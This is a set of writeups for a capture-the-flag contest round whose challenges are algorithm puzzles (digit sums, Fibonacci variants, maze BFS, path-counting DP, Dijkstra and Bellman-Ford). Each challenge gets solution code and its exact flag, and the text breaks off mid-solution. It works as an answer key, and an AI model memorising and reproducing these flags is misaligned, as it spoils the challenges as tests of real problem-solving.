

# Round 1 Writeups

## sanity-check

General Skills (10 points)

### Problem

Enter this flag for 10 free points! Or maybe entering flags is hard...

Relevant links: [sanity-check.txt](https://cararra-ctf-files.herokuapp.com/r1/sanity-check.txt)

### Writeup

Click on the link, download the text file, and voilà! You get that the flag is `cararraCTF{w31c0m3_tO_Ep!cness_:D}`.

## digit-sum

General Skills (20 Points)

### Problem

Find the sum of the binary digits of the decimal number `9223372036851231233`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

### Writeup

To find the units digit of a number `n`, you computer `n%10`. As such, we compute the sum of digits for a decimal number by adding the last digit to our running sum and then deleting it using `n /= 10`.

Here is the code for this binary digit sum problem, which uses the same strategy except replaces the 10s with 2s:

```python
n = int(input())

tot = 0
while n > 0:
    tot += n%2
    n //= 2

print(tot)
```

Plugging in `9223372036851231233` , we get a digit sum of `49` and a flag of `cararraCTF{49}`.

### Additional Solutions

Julia Bit Shift (by Mastermind#7720)

```r
function binarySum(num::Integer)
    sum = 0
    while num > 0
        sum += num % 2
        num >>= 1
    end
    sum
end
```

Java Library Call (by kp#0649)

```java
public class digitsum {
    public static void main(String[] args) {
        long n = 9223372036851231233L; 
        System.out.println(Long.bitCount(n)); 
    }
}
```

## fibonacci-1

Algorithms (25 points)

### Problem

Take the modified Fibonacci sequence, the Dibonacci sequence: `D(0) = 1`, `D(1) = 2`, `D(2) = 3` and `D(N) = D(N-3) + D(N-2) + D(N-1)`. Find `D(42)`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

### Writeup

As you probably know, recursion is much too slow for this problem. One strategy is to use memoization and store all values of `D(i)` for `0 ≤ i ≤ n` and building up starting from `i=4`.

However, that is pretty memory intensive an unnecessary. We only need to store the previous 3 values and their sum, which can be implemented as follows:

```python
n = int(input())

prev = [1, 2, 3]
s = 6

for i in range(3, n):
    tmp = prev[i%3]
    prev[i%3] = s
    s += s - tmp

print(s)
```

Plugging in `n=42`, we get an answer of `124485827703` and a flag of `cararraCTF{124485827703}`.

### Additional Solutions

Java Memoization (by MangoPotato#5993)

```java
class Main {
  public static void main(String[] args) {
    long[] fibb = new long[43];
    fibb[0] = 1;
    fibb[1] = 2;
    fibb[2] = 3;
    for(int i = 3; i < 43; i++)
      fibb[i] = fibb[i-1]+fibb[i-2]+fibb[i-3];
    System.out.println(fibb[42]);
  }
}
```

Java Constant Memory (by kp#0649)

```java
public class fibonacci1 {
    public static void main(String[] args) {
        long a = 1; 
        long b = 2; 
        long c = 3;
        for (int i = 0; i<40; i++) {
            long temp = a+b+c;
            a = b; 
            b = c; 
            c = temp; 
        }
        System.out.println(c); 
    }
}
```

Julia Memoization (by Mastermind #7720)

```r
dibonacciMap = Dict{Integer,Integer}(0 => 1, 1 => 2, 2 => 3) # Default Values

# Dibonacci with Memoization
function dibonacci(i::Integer)
    if get(dibonacciMap, i, -1) != -1
        return dibonacciMap[i]
    end
    dibonacciMap[i] = dibonacci(i - 1) + dibonacci(i - 2) + dibonacci(i - 3)
end
```

Python Generating Functions (by hiimbob#7680)

```python
import cmath

# Derivation of the generating function can be found here https://www.overleaf.com/read/zgnyhsgnqtpq
# r, s, and t are the roots of the cubic equation 1-x-x^2-x^3, and x is a number that shows up in each of their exact forms
x=(17+3*(33**(1/2)))**(1/3) 
r=(-1*x-2+x**2)/(3*x)
s=complex((-2*x+2-x**2)/(6*x),-1*(3**(1/2))*(2+x**2)/(6*x))
t=complex((-2*x+2-x**2)/(6*x),(3**(1/2))*(x**2+2)/(6*x))

def D(n):
    #z is the value of the coefficient of x^n in the taylor expansion of (x+1)/(1-x-x^2-x^3), which is equal to D(n)
    z=((r+1)/((r-s)*(r-t)*(r**(n+1)))+(s+1)/((s-t)*(s-r)*(s**(n+1)))+(t+1)/((t-s)*(t-r)*(t**(n+1))))

    #all values have to be rounded because there are irrational numbers, mathematically everything works out to positive integers
    return complex(round(z.real),round(z.imag))

print(D(42))
```

## fibonacci-2

Algorithms (50 points)

### Problem

Take the modified Fibonacci sequence, the Vibeonacci sequence: `V(k, 0) = 0`, `V(k, 1) = 1`, `V(k, 2) = 2`, ..., `V(k, k-1)=k-1` and `V(k, N) = k * V(k, N-k) + (k-1) * V(k, N-k+1) + ... 2 * V(k, N-2) + V(k, N-1)`. `Find V(11, 210) % pow(10, 9) + 7`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

### Writeup

Both `k` and `n` are sufficiently small for us to brute-force the solution in `O(KN)` time. We can use the same strategy as previous problems and just use memoization to make our lives easier (if you want a fancy, fast, memory-efficient solution, look at `fibonacci-3`).

```python
[k, n] = list(map(int, input().strip().split()))

prev = [i for i in range(n+1)]
mod = pow(10, 9) + 7

for i in range(k, n+1):
    s = 0
    for j in range(1, k+1):
        s += j * prev[i - j]
        s %= mod
    prev[i] = s

print(prev[n])
```

Plugging in `k=11` and `n=210`, we get an answer of `291902947` and a flag of `cararraCTF{291902947}`.

## fibonacci-3

Algorithms (100 points)

### Problem

Take the modified Fibonacci sequence, the Vibeonacci sequence: `V(k, 0) = 0`, `V(k, 1) = 1`, `V(k, 2) = 2`, ..., `V(k, k-1)=k-1` and `V(k, N) = k * V(k, N-k) + (k-1) * V(k, N-k+1) + ... 2 * V(k, N-2) + V(k, N-1)`. Find `V(100000, 10000000) % pow(10, 9) + 7`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

### Writeup

We can use a similar approach to `fibonacci-1`, but we need to be a bit more clever since we no longer have a straight summation (and we have to do this in `O(N)` time unless we want to run our code for a couple days, which you are definitely welcome to do). However, we can still write a pretty nice recursion so we do not need to go through all `k` elements of our `prev` array.

Let `su` be the sum of the numbers in `prev`, and `s` be the weighted sum of the numbers in `prev`. We know that if we have  the element we're adding `new` and the element we're taking out `old`, we can write the equation `s_new = s_old + new + su - (k+1)*old` (Keep in mind that `new = s_old`).

If we can easily keep track of `s`, we simply set the next element in our sequence to the old `s` then compute the new `s` repeatedly.

The recurrence for `su` is the same as in the previous problem.

```python
[k, n] = list(map(int, input().strip().split()))

prev = [i for i in range(k)]
mod = pow(10, 9) + 7

# sum of k numbers in prev
su = k*(k-1)//2 % mod

# weighted sum of k numbers in prev
s = 0

for i in range(k):
    s += (k-i) * prev[i]
    s %= mod

for i in range(k, n):
    tmp = prev[i%k]
    prev[i%k] = s

    s += s + su - (k+1)*tmp
    s %= mod

    su += prev[i%k] - tmp
    su %= mod

print(s)
```

Plugging `k=100000` and `n=10000000`, we get an answer of `276976602` and a flag of `cararraCTF{276976602}`.

### Additional Solutions

Julia Queue (Mastermind#7720)

```r
using Mods

const MOD = 1000000000 + 7

function vibeonacci(k::Int64, n::Int64)
    if n < k
        return n % MOD
    end
    queue = Vector{Mod{MOD}}(collect(0:(k - 1)))
    sum = Mod{MOD}((k * (k - 1)) >> 1)

    # Manually Solve for V(k, k)
    val::Mod{MOD} = 0
    for x in 1:k
        val += (x * queue[k - x + 1])
    end
    
    last = Mod{MOD}(popfirst!(queue))
    push!(queue, val)
    sum += val - last

    for x in (k + 2):(n + 1)
        val = Mod{MOD}(queue[k])
        val -= (k * last)
        val += sum
        last = Mod{MOD}(popfirst!(queue))
        sum -= last
        push!(queue, val)
        sum += val
    end

    pop!(queue)
end
```

C++ Queue (Your Resident Asian#1111)

```cpp
#include <bits/stdc++.h>
using namespace std;
using ll = long long;

const ll M = 1e9 + 7;

ll V(ll k, ll n) {
    ll cur = 0, sum = 0;
    queue<ll> q; //queue of last k + 1 elements
    for (ll i = 0; i < k; ++i) {
        cur = (cur + i * (k - i) % M) % M;
        sum = (sum + i) % M;
        q.push(i);
    }
    q.push(cur);
    for (int i = k; i < n; ++i) { //(i + 1)'th element = i'th element + (sum of last k elements) - (i - k - 1)'th element * k
        ll o = cur;
        cur = (cur * 2 + sum) % M;
        cur = (cur - (q.front() * k % M) + M) % M;
        q.pop();
        q.push(cur);
        sum = (sum - q.front() + o + M) % M;
    }
    while (q.size() > 1)
        q.pop();
    return q.front();
}

int main() {
    cin.tie(0)->sync_with_stdio(0);
    ll a, b;
    cin >> a >> b;
    cout << V(a, b) << '\n';
}
```

Java Queue (by kp#0649) 

```java
import java.math.*;
import java.util.*;

public class fibonacci3 {
    static final BigInteger mod = new BigInteger("1000000007");
    public static BigInteger solve(BigInteger k, BigInteger n) {
        BigInteger sum = BigInteger.ZERO;
        BigInteger cur = BigInteger.ZERO;
        Queue<BigInteger> q = new LinkedList<>();
        for (long i = 0; i<k.longValue(); i++) {
            BigInteger bi = BigInteger.valueOf(i);
            sum = sum.add(bi);
            cur = cur.add(bi.multiply(k.subtract(bi)));
            q.add(bi);
        }
        q.add(cur);
        for (long i = k.longValue(); i<n.longValue(); i++) {
            BigInteger temp = cur;
            cur = cur.add(cur).add(sum);
            cur = cur.subtract(q.peek().multiply(k)).mod(mod);
            q.poll();
            q.add(cur);
            sum = sum.subtract(q.peek());
            sum = sum.add(temp).mod(mod);
        }
        while (q.size() > 1) {
            q.poll();
        }
        return q.peek();
    }
    public static void main(String[] args) {
        BigInteger n = BigInteger.valueOf(10000000);
        BigInteger k = BigInteger.valueOf(100000);
        System.out.println(solve(k,n));
    }
}
```

## bellman-troubles-1

Algorithms (75 points)

### Problem

A bellman is tasked with taking a guest's luggage to their room, but unfortunately there is a long maze between him and the guest's room. Find the length of the shortest path from the bellman's current location at the upper-left corner of the maze given in the text file to the bottom-right corner of the maze. Walls are denoted `#` and hallways are denoted `.`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

Relevant links: [bellman-troubles-1.txt](http://cararra-ctf-files.herokuapp.com/bellman-troubles-1.txt)

### Writeup

This is just a straightforward flood-fill problem, so time to practice your BFS skills!

```python
f = open("bellman-troubles-1.txt")

arr = f.read().strip().split('\n')

q = [(0,0)]
visited = {(0, 0): 0}
adj = [(0, 1), (1, 0), (0, -1), (-1, 0)]

while len(q) > 0:
    curr = q.pop(0)
    for p in adj:
        nextm = curr[0] + p[0]
        nextn = curr[1] + p[1]
        if 0 <= nextm < len(arr) and 0 <= nextn < len(arr[0]) and (nextm, nextn) not in visited and arr[nextm][nextn] == '.':
            visited[(nextm, nextn)] = visited[curr] + 1
            q.append((nextm, nextn))

print(visited[(len(arr)-1, len(arr[0])-1)])
```

Running the code, we get a shortest path of `316` moves and a flag of `cararraCTF{316}`.

### Additional Solutions

Java Floodfill (by kp#0649)

```java
import java.io.*;
import java.util.*; 

public class bellmantroubles1 {
    static class Pair {
        int i; int j; 
        public Pair(int i, int j) {
            this.i = i;
            this.j = j; 
        }
    }
    static class Node {
        Pair p; 
        int length; 
        public Node (Pair p, int length) {
            this.p = p; 
            this.length = length; 
        }
    }
    public static boolean valid(int i, int j) {
        return (i >= 0 && i<101 && j>=0 && j<101); 
    }
    public static void main(String[] args) throws IOException{
        BufferedReader br = new BufferedReader(new FileReader("bellman-troubles-1.txt")); 
        boolean[][] grid = new boolean[101][101]; 
        for (int i = 0; i<101; i++) {
            char[] next = br.readLine().toCharArray(); 
            for (int j = 0; j<101; j++) {
                if (next[j] == '.') {
                    grid[i][j] = true; 
                }
            }
        }
        br.close(); 
        Pair[] dir = {new Pair(0,1), new Pair(0,-1), new Pair(1,0), new Pair(-1,0)}; 
        boolean[][] vis = new boolean[101][101]; 
        Queue<Node> q = new LinkedList<Node>(); 
        q.add(new Node(new Pair(0,0),0)); 
        int ans = 101*101; 
        while (!q.isEmpty()) {
            Node u = q.poll(); 
            if (vis[u.p.i][u.p.j]) continue; 
            vis[u.p.i][u.p.j] = true; 
            if (u.p.i == 100 && u.p.j == 100) {
                ans = Math.min(ans,u.length); 
                continue; 
            }
            for (Pair v: dir) {
                int newI = u.p.i+v.i; 
                int newJ = u.p.j+v.j; 
                if (valid(newI,newJ) && !vis[newI][newJ] && grid[newI][newJ]) {
                    q.add(new Node(new Pair(newI,newJ),u.length+1)); 
                }
            }
        }
        System.out.println(ans); 
    }
}
```

Julia BFS (by Mastermind#7720)

```r
function shortestPath(filePath::String, xMax::Int64, yMax::Int)
    f = open(filePath, "r")

    xTrans = Vector{Int64}([0, 0, 1, -1])
    yTrans = Vector{Int64}([1, -1, 0, 0])

    arr = Matrix{Int64}(undef, xMax, yMax)
    fill!(arr, typemax(Int64) + 1)

    for y in 1:yMax
        s = readline(f)
        for x in 1:min(xMax, length(s))
            arr[x, y] = ((s[x] == '.') ? (typemax(Int64)) : (typemin(Int64)))
        end
    end
    
    q = Vector{Tuple{Int64,Int64}}([(1, 1)])
    setindex!(arr, 0, 1, 1)

    res = typemax(Int64)

    while size(q, 1) > 0
        cur::Tuple{Int64,Int64} = popfirst!(q)

        dist = arr[cur[1], cur[2]]

        if cur[2] == yMax && cur[1] == xMax
        res = min(res, dist)
            continue
        end

        if dist < res
            for i in 1:4
                domain::Bool = cur[1] + xTrans[i] > 0 && cur[1] + xTrans[i] <= xMax && cur[2] + yTrans[i] > 0 && cur[2] + yTrans[i] <= yMax
                if domain && dist + 1 < arr[cur[1] + xTrans[i], cur[2] + yTrans[i]]
                        arr[cur[1] + xTrans[i], cur[2] + yTrans[i]] = dist + 1
                        push!(q, (cur[1] + xTrans[i], cur[2] + yTrans[i]))
                end
            end
        end
    end
    
    close(f)
    res
end
```

## bellman-troubles-2

Algorithms (150 points)

### Problem

A bellman is tasked with taking a guest's luggage to their room, but unfortunately there are several obstacles in his way. Obstacles are denoted `#` and open spaces are denoted `.`. Luckily for him, since bellmen are also called bellhops, he can jump over obstacles that are small enough (namely, he can jump over a single obstacle such as `.#.`, but cannot jump over `.##.`). Let X the number of ways for him to get from the top left corner of the given grid to the bottom right corner if he always moves right or down. Find `X % pow(10, 9) + 7`. In a 3x3 grid with no obstacles, he can do so in 6 ways (RRDD, RDRD, RDDR, DRRD, DRDR, DDRR). Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

### Writeup

We can use dynamic programming to solve this problem. Essentially, to get to any point in the grid, the bellman must have either moved normally from an adjacent point to the left or top, or must have jumped over an obstacle to the left or top.

Thus, if our state `dp[i][j]` is the number of ways to get from the top-left corner to point `(i,j)` where `i` is the row and `j` is the column, our transition is simply `dp[i][j] = dp[i-1][j]+dp[i][j-1]`, and we add in `dp[i-2][j]` if there is an obstacle above and `dp[i][j-2]` if there is an obstacle to the left.

Here's the code:

```python
f = open('bellman-troubles-2.txt')

arr = f.read().strip().split('\n')

dp = [[0] * len(arr) for i in range(len(arr[0]))]
mod = 10 ** 9 + 7

dp[0][0] = 1

for i in range(len(arr)):
    for j in range(len(arr[0])):
        if arr[i][j] == '.':
            if i > 0:
                dp[i][j] += dp[i-1][j]
            if j > 0:
                dp[i][j] += dp[i][j-1]
            if i > 1 and arr[i-1][j]=='#':
                dp[i][j] += dp[i-2][j]
            if j > 1 and arr[i][j-1]=='#':
                dp[i][j] += dp[i][j-2]
            dp[i][j] %= mod

print(dp[len(arr)-1][len(arr[0])-1])
```

Plugging in, we get an answer of `724179261` and a flag of `cararraCTF{724179261}`.

### Additional Solutions

Julia Prefix Sums (by Mastermind#7720)

```r
const MOD = 1000000007

function countPaths(filePath::String, xMax::Int64, yMax::Int)
    f = open(filePath, "r")

    pos = Matrix{Bool}(undef, xMax, yMax)
    fill!(pos, false)

    val = zeros(Int64, xMax, yMax)

    for y in 1:yMax
        s = readline(f)
        for x in 1:min(xMax, length(s))
            pos[x, y] = s[x] == '.'
        end
    end
    
    val[100, 100] = 1

    # Essentially a 2D Prefix Sum with Double Counting
    for x in reverse(1:100)
        for y in reverse(1:100)
            # Check Below
            if y + 1 <= yMax
                if pos[x, y + 1]
                    val[x, y] += val[x, y + 1] % MOD
                    val[x, y] %= MOD
                elseif y + 2 <= yMax && pos[x, y + 2]
                    val[x, y] += val[x, y + 2] % MOD
                    val[x, y] %= MOD
                end
            end

            # Check Right
            if x + 1 <= xMax
                if pos[x + 1, y]
                    val[x, y] += val[x + 1, y] % MOD
                    val[x, y] %= MOD
                elseif x + 2 <= xMax && pos[x + 2, y]
                    val[x, y] += val[x + 2, y] % MOD
                    val[x, y] %= MOD
                end
            end
        end
    end
    
    close(f)
    val[1, 1] % MOD
end
```

Java DP (by kp#0649)

```java
import java.io.*;

public class bellmantroubles2 {
    public static void main(String[] args) throws IOException{
        BufferedReader br = new BufferedReader(new FileReader("bellman-troubles-2.txt"));
        char[][] grid = new char[100][100]; 
        for (int i = 0; i<100; i++) {
            grid[i] = br.readLine().toCharArray(); 
        }
        long[][] dp = new long[100][100]; 
        final int mod = (int)1e9+7;
        dp[0][0] = 1; 
        for (int i = 0; i<100; i++) {
            for (int j = 0; j<100; j++) {
                if (i > 0 && grid[i-1][j] != '#') {
                    dp[i][j] += dp[i-1][j]; 
                    dp[i][j] %= mod; 
                }
                else if (i > 1 && grid[i-2][j] != '#') {
                    dp[i][j] += dp[i-2][j]; 
                    dp[i][j] %= mod; 
                }
                if (j > 0 && grid[i][j-1] != '#') {
                    dp[i][j] += dp[i][j-1]; 
                    dp[i][j] %= mod; 
                }
                else if (j > 1 && grid[i][j-2] != '#') {
                    dp[i][j] += dp[i][j-2]; 
                    dp[i][j] %= mod; 
                }
            }
        }
        System.out.println(dp[99][99]); 
    }
    
}
```

## bellman-troubles-3

Algorithms (175 points)

### Problem

A bellman is tasked with taking a guest's luggage to their room, but unfortunately there are several obstacles in his way. Obstacles are denoted `#` and open spaces are denoted `.`. Some spaces have gifts for him and are denoted `G`. Luckily for him, since bellmen are also called bellhops, he can jump over obstacles that are small enough (namely, he can move right over a single obstacle such as `.#.`, but cannot move right over `.##.`). Find the number of ways for him to get from the top left corner of the given grid to the bottom right corner in `47` moves while getting as many gifts as possible if he always moves right or down (jumping over an obstacle counts as a single move). Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

Relevant links: [bellman-troubles-3.txt](http://cararra-ctf-files.herokuapp.com/bellman-troubles-3.txt)

### Writeup

We can basically augment our code from last time to keep track of a bigger state, where `dp[i][j][k][l]` is the number of ways to get to the point `(i,j)` where `i` is the row and `j` is the column in `k` moves and having gotten `l` gifts. The transitions are pretty straightforward, and once we finish computing our values we can go through the `dp` array of the bottom-right corner with `47` moves to find the most possible gifts he can get and the number of ways to do so.

```python
f = open('bellman-troubles-3.txt')

arr = f.read().strip().split('\n')

moves = 47
dp = [[[[0]*(len(arr)+len(arr[0])+2) for i in range(len(arr)+len(arr[0])+1)] for j in range(len(arr[0]))] for k in range(len(arr))]
mod = 10 ** 9 + 7

if arr[0][0] == 'G':
    dp[0][0][0][1] = 1
else:
    dp[0][0][0][0] = 1

for i in range(len(arr)):
    for j in range(len(arr[0])):
        for k in range(1, len(arr) + len(arr[0])):
            for l in range(len(arr) + len(arr[0]) + 2):
                if arr[i][j] == '.':
                    if i > 0:
                        dp[i][j][k][l] += dp[i-1][j][k-1][l]
                    if j > 0:
                        dp[i][j][k][l] += dp[i][j-1][k-1][l]
                    if i > 1 and arr[i-1][j]=='#':
                        dp[i][j][k][l] += dp[i-2][j][k-1][l]
                    if j > 1 and arr[i][j-1]=='#':
                        dp[i][j][k][l] += dp[i][j-2][k-1][l]
                if arr[i][j] == 'G' and l > 0:
                    if i > 0:
                        dp[i][j][k][l] += dp[i-1][j][k-1][l-1]
                    if j > 0:
                        dp[i][j][k][l] += dp[i][j-1][k-1][l-1]
                    if i > 1 and arr[i-1][j]=='#':
                        dp[i][j][k][l] += dp[i-2][j][k-1][l-1]
                    if j > 1 and arr[i][j-1]=='#':
                        dp[i][j][k][l] += dp[i][j-2][k-1][l-1]

for i in range(len(arr)+len(arr[0])+1, -1, -1):
    if dp[len(arr)-1][len(arr[0])-1][moves][i] > 0:
        print(dp[len(arr)-1][len(arr[0])-1][moves][i])
        break
```

### Additional Solutions

Java DP (by kp#0649)

```java
import java.io.*;

public class bellmantroubles3 {
    public static void main(String[] args) throws IOException{
        BufferedReader br = new BufferedReader(new FileReader("bellman-troubles-3.txt")); 
        char[][] grid = new char[25][25];
        for (int i = 0; i<25; i++) {
            grid[i] = br.readLine().toCharArray(); 
        }
        int[][][][] dp = new int[25][25][50][50]; 
        dp[0][0][0][0] = 1; 
        for (int i = 0; i<25; i++) {
            for (int j = 0; j<25; j++) {
                for (int k = 1; k<50; k++) {
                    for (int l = 0; l<50; l++) {
                        if (grid[i][j] == '.') {
                            if (i > 0) {
                                dp[i][j][k][l] += dp[i-1][j][k-1][l]; 
                            }
                            if (j > 0) {
                                dp[i][j][k][l] += dp[i][j-1][k-1][l]; 
                            }
                            if (i > 1 && grid[i-2][j] != '#') {
                                dp[i][j][k][l] += dp[i-2][j][k-1][l]; 
                            }
                            if (j > 1 && grid[i][j-2] != '#') {
                                dp[i][j][k][l] += dp[i][j-2][k-1][l]; 
                            }
                        }
                        if (grid[i][j] == 'G' && l > 0) {
                            if (i > 0) {
                                dp[i][j][k][l] += dp[i-1][j][k-1][l-1]; 
                            }
                            if (j > 0) {
                                dp[i][j][k][l] += dp[i][j-1][k-1][l-1]; 
                            }
                            if (i > 1 && grid[i-2][j] != '#') {
                                dp[i][j][k][l] += dp[i-2][j][k-1][l-1]; 
                            }
                            if (j > 1 && grid[i][j-2] != '#') {
                                dp[i][j][k][l] += dp[i][j-2][k-1][l-1]; 
                            }
                        }
                    }
                }
            }
        }
        for (int i = 49; i>=0; i--) {
            if (dp[24][24][47][i] > 0) {
                System.out.println(dp[24][24][47][i]); 
                break; 
            }
        } 
    }
}
```

## bellman-troubles-4

Algorithms (150 points)

### Problem

A bellman is tasked with taking a guest's luggage to their room, but unfortunately the hotel has very dirty hallways and lobbies. The hotel consists of `N` lobbies numbered `1 ... N`. The bellman is currently at Lobby `1`, and the guests' room is in Lobby `N`. The lobbies are connected by `M` hallways, and traveling through a hallway `i` makes the bellman `h_i` units dirtier. Certain lobbies are also so dirty that just by entering the lobby `i`, the bellman becomes `l_i` units dirtier. Find the least dirtiness the bellman can have by the time he reaches the guests' room (guests do not like dirty bellmen). In the test case, the first line gives `N` followed by `M`, and the next `N` lines give the value `l_i` for each lobby. The next M lines specify the starting point and ending point of hallway `i`, followed by `h_i`.

### Writeup

This is a shortest path problem, and we cannot use an `O(N^2)` algorithm. Thus, we use Dijkstra's. However, we also need to consider the lobbies themselves, which we can do by adding `l_i` to all outgoing edges from each lobby before running Dijkstra's.

Here is the code:

```python
import heapq

f = open("bellman-troubles-4.txt")

[n, m] = list(map(int, f.readline().strip().split()))
l = [0] + [int(f.readline().strip()) for i in range(n)]
adj = [[] for i in range(n+1)]

for i in range(m):
    [a, b, h] = list(map(int, f.readline().strip().split()))
    adj[a].append((b, h))
    adj[b].append((a, h))

for i in range(1, n+1):
    for j in range(len(adj[i])):
        adj[i][j] = (adj[i][j][0], adj[i][j][1] + l[i])

# Dijkstra's code taken from Geeks for Geeks and modified slightly for better performance
def dijkstra(src, n, adj):
  
    dist = [1000000000] * (n+1)
    dist[src] = 0
    sptSet = [False] * (n+1)
    pq = []
    heapq.heapify(pq)
    heapq.heappush(pq, (0, src))

    while len(pq) > 0:

        # Pick the minimum distance vertex from 
        # the set of vertices not yet processed. 
        # u is always equal to src in first iteration
        u = heapq.heappop(pq)[1]
        if sptSet[u]:
            continue

        # Put the minimum distance vertex in the 
        # shotest path tree
        sptSet[u] = True

        # Update dist value of the adjacent vertices 
        # of the picked vertex only if the current 
        # distance is greater than new distance and
        # the vertex in not in the shotest path tree
        for v in adj[u]:
            if sptSet[v[0]] == False and dist[v[0]] > dist[u] + v[1]:
                dist[v[0]] = dist[u] + v[1]
                heapq.heappush(pq, (dist[v[0]], v[0]))
    return dist

dist = dijkstra(1, n, adj)
print(dist[n] + l[n])
```

Plugging in, we get an answer of 643 and a flag of `cararraCTF{643}`.

### Addition Solutions

Java Dijkstra's (by kp#0649)

```java
import java.util.*;
import java.io.*; 

public class bellmantroubles4 {
    static class Edge implements Comparable<Edge>{
        int to; 
        int len; 
        public Edge(int _to, int _len) {
            to = _to;
            len = _len; 
        }
        @Override
        public int compareTo(Edge o) {
            if (len - o.len == 0) {
                return to - o.to; 
            }
            return len - o.len;
        }
    }
    public static void main(String[] args) throws IOException{
        BufferedReader br = new BufferedReader(new FileReader("bellman-troubles-4.txt")); 
        StringTokenizer st = new StringTokenizer(br.readLine()); 
        int N = Integer.parseInt(st.nextToken()); 
        int M = Integer.parseInt(st.nextToken()); 
        int[] l = new int[N]; 
        ArrayList<Edge>[] adj = new ArrayList[N]; 
        for (int i = 0; i<N; i++) {
            adj[i] = new ArrayList<>();
            l[i] = Integer.parseInt(br.readLine()); 
        }
        for (int i = 0; i<M; i++) {
            st = new StringTokenizer(br.readLine()); 
            int u = Integer.parseInt(st.nextToken())-1;
            int v = Integer.parseInt(st.nextToken())-1;
            int h = Integer.parseInt(st.nextToken()); 
            adj[u].add(new Edge(v,h+l[v]));
            adj[v].add(new Edge(u,h+l[u])); 
        }
        int[] dist = new int[N];
        for (int i = 0; i<N; i++) {
            dist[i] = Integer.MAX_VALUE; 
        }
        dist[0] = l[0];
        PriorityQueue<Edge> pq = new PriorityQueue<>();
        pq.add(new Edge(0,dist[0])); 
        while (!pq.isEmpty()) {
            int v = pq.peek().to; 
            int dv = pq.peek().len; 
            pq.poll(); 
            if (dv != dist[v]) {
                continue; 
            }
            for (Edge e: adj[v]) {
                int to = e.to;
                int len = e.len; 
                if (dist[v] + len < dist[to]) {
                    dist[to] = dist[v]+len; 
                    pq.add(new Edge(to,dist[to])); 
                }
            }
        }
        System.out.println(dist[N-1]);
    }
}
```

## bellman-troubles-5

Algorithms (175 points)

### Problem

A bellman is tasked with taking a guest's luggage to their room one last time, but unfortunately the hotel has very dirty hallways and lobbies. The hotel consists of `N` lobbies numbered `1 ... N`. The bellman is currently at Lobby `1`, and the guests' room is in Lobby `N`. The lobbies are connected by `M` hallways, and traveling through a hallway `i` makes the bellman `h_i` units dirtier. Luckily, certain lobbies have a shower, so by entering the lobby `i`, the bellman becomes `l_i` units cleaner (less dirty). Find the least dirtiness the bellman can have by the time he reaches the guests' room (guests do not like dirty bellmen). Note that he may have negative dirtiness. In the test case, the first line gives `N` followed by `M`, and the next `N` lines give the value `l_i` for each lobby. The next `M` lines specify the starting point and ending point of hallway `i`, followed by `h_i`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

### Writeup

This is basically the same as `bellman-troubles-4` except with possibly negative edge weights. As such, we have to use Bellman Ford, the namesake of this challenge series, to solve the problem.

```python
import sys

f = open("bellman-troubles-5.txt")

[n, m] = list(map(int, f.readline().strip().split()))
l = [0] + [int(f.readline().strip()) for i in range(n)]
adj = [[] for i in range(n+1)]

for i in range(m):
    [a, b, h] = list(map(int, f.readline().strip().split()))
    adj[a].append((b, h))
    adj[b].append((a, h))

for i in range(1, n+1):
    for j in range(len(adj[i])):
        adj[i][j] = (adj[i][j][0], adj[i][j][1] - l[i])

def bellman(src, n, adj):
  
    dist = [1000000000] * (n+1)
    dist[src] = 0
    sptSet = [False] * (n+1)

		# The code below is from the Geeks for Geeks article on Bellman Ford
    for _ in range(n - 1):
        # Update dist value and parent index of the adjacent vertices of
        # the picked vertex. Consider only those vertices which are still in
        # queue
        for u in range(1, n+1):
            for (v, w) in adj[u]:
                if dist[u] != 1000000000 and dist[u] + w < dist[v]:
                    dist[v] = dist[u] + w

    # Step 3: check for negative-weight cycles. The above step
    # guarantees shortest distances if graph doesn't contain
    # negative weight cycle. If we get a shorter path, then there
    # is a cycle.

    for u in range(1, n+1):
        for (v, w) in adj[u]:
            if dist[u] != 1000000000 and dist[u] + w < dist[v]:
                print("Graph contains negative weight cycle")
                return
    return dist

dist = bellman(1, n, adj)
print(dist[n] - l[n])
```

Plugging in, we get an answer of `962` and a flag of `cararraCTF{962}`.

### Additional Solutions

Java Bellman-Ford (by kp#0649)

```java
import java.util.*; 
import java.io.*; 

public class bellmantroubles5 {
    static class Edge {
        int from; 
        int to; 
        int weight; 
        public Edge(int _from, int _to, int _weight) {
            from = _from;
            to = _to; 
            weight = _weight; 
        }
    }
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("bellman-troubles-5.txt")); 
        StringTokenizer st = new StringTokenizer(br.readLine()); 
        int N = Integer.parseInt(st.nextToken()); 
        int M = Integer.parseInt(st.nextToken()); 
        int[] l = new int[N]; 
        for (int i = 0; i<N; i++) {
            l[i] = Integer.parseInt(br.readLine()); 
        }
        Edge[] edges = new Edge[M*2]; 
        for (int i = 0; i<M; i++) {
            st = new StringTokenizer(br.readLine()); 
            int u = Integer.parseInt(st.nextToken())-1; 
            int v = Integer.parseInt(st.nextToken())-1;
            int h = Integer.parseInt(st.nextToken()); 
            edges[2*i] = new Edge(u,v,h-l[v]); 
            edges[2*i+1] = new Edge(v,u,h-l[u]); 
        }
        int[] dist = new int[N]; 
        final int INF = (int)1e9; 
        Arrays.fill(dist,INF); 
        dist[0] = -l[0];
        for (int i = 0; i<N-1; i++) {
            for (int j = 0; j<M*2; j++) {
                if (dist[edges[j].from] < INF) {
                    dist[edges[j].to] = Math.min(dist[edges[j].to],dist[edges[j].from] + edges[j].weight); 
                }
            }
